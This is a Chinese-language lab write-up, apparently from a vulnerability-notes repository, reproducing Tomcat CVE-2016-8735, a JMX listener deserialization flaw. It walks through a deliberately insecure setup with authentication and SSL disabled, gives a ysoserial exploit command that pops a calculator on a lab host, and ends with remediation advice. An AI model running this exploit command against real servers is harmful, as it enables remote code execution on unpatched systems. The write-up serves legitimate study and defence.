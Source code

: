 ### 介绍

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

### 环境搭建

```
Java环境安装
https://www.java.com/en/download/manual.jsp
Tomcat
https://tomcat.apache.org/download-70.cgi
```

1、下载并解压

![image-20200811143448762](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200811143320510.png)

2、双击执行启动服务

```
http://192.168.3.156:8080/
```

![image-20200811143448762](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200811143448762.png)

#### Tomcat结构介绍

下载解压后存在目录、文件信息：

```shell
bin-----存放Tomcat的脚本文件，例如启动、关闭
conf----Tomcat的配置文件，例如server.xml和web.xml
lib-----存放Tomcat运行需要的库文件（JAR包）
logs----存放Tomcat执行时的LOG文件
temp----存放Tomcat运行时所产生的临时文件
webapps-Web发布目录，默认情况下把Web应用文件放于此目录
work----存放jsp编译后产生的class文件
```

### 漏洞分类实战

#### CVE-2016-8735

##### 漏洞描述

Oracle修复了JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。 Tomcat也使用了JmxRemoteLifecycleListener这个监听器,但是Tomcat并没有及时升级，所以存在这个远程代码执行漏洞。

##### 影响范围

Apache Tomcat 9.0.0.M1 to 9.0.0.M11 

Apache Tomcat 8.5.0 to 8.5.6 

Apache Tomcat 8.0.0.RC1 to 8.0.38 

Apache Tomcat 7.0.0 to 7.0.72 

Apache Tomcat 6.0.0 to 6.0.47

##### 漏洞原理

该漏洞的诱因存在于Oracle已经修复的JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。因为Tomcat也使用了JmxRemoteLifecycleListener监听功能，但并没有及时升级，导致该远程代码执行漏洞。

##### 漏洞条件

1、要外部开启JmxRemoteLifecycleListener监听端口，实现远程利用。 

```xml
conf/server.xml
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```

![image-20200812101526860](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812101526860.png)

2、下载对应jar放到lib目录下：

- catalina-jmx-remote.jar要与对应tomcat版本一致[不同版本下载](https://archive.apache.org/dist/tomcat/)一般存在extras文件下，如下图所示
- [groovy2.3.9](https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9)下载版本最好为2.3.9（经过测试2.3.0到2.4.0-beta-4）

![image-20200812102130773](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812102130773.png)

![image-20200811163431177](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200811163431177.png)

3、接着修改bin/catalina.bat，在Execute The Requested Command处上面添加

```java
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```

- -Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯
- -Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证

![image-20200812101910590](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812101910590.png)

4、服务启动

下图所示：服务已启动10001端口已启动

![image-20200812103050881](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812103050881.png)

##### 漏洞检测

1、执行以下PoC

```java
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.3.165 10001 Groovy1 calc.exe
```

Java 1.8出现报错

![image-20200812104703039](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/image-20200812104703039.png)

1.7的jdk成功弹出计算器

![PoC](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2016-8735/images/PoC.gif)

##### 漏洞修复

紧急措施：关闭JmxRemoteLifecycleListener功能，或者是对jmx JmxRemoteLifecycleListener远程端口进行网络访问控制。同时，增加严格的认证方式。

升级jdk（目前测试1.8是无法利用）

推荐方案：官方已经发布了版本更新，建议您升级到最新版本。

- Apache Tomcat 9.0.0.M13或更新版本(Apache Tomcat 9.0.0.M12也修复了此漏洞，但并未发布)
- Apache Tomcat 8.5.8或更新版本(Apache Tomcat 8.5.7也修复了此漏洞，但并未发布)
- Apache Tomcat 8.0.39或更新版本
- Apache Tomcat 7.0.73或更新版本
- Apache Tomcat 6.0.48或更新版本